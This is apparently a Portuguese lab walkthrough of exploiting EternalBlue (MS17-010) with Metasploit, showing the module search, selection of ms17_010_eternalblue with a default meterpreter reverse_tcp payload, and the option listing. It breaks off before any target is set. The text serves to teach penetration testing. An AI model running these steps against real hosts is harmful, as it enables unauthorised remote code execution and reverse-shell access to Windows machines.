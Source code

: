 ```
msfconsole
```

Quando entrei no metasploit, utilizei o comando search, como indicava este [link](https://null-byte.wonderhowto.com/how-to/exploit-eternalblue-windows-server-with-metasploit-0195413/).

```
search eternalblue
```

```
Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

```

Depois disso, eu utilizei o comando 'use' para utilizar o módulo acima do eternalblue.

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue 
```

```
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
```

Depois disso, analisei as opções que eu tinha para o exploit e descobri as seguintes:

```
sf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2,
                                              Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Win
                                             dows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Wi
                                             ndows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
```
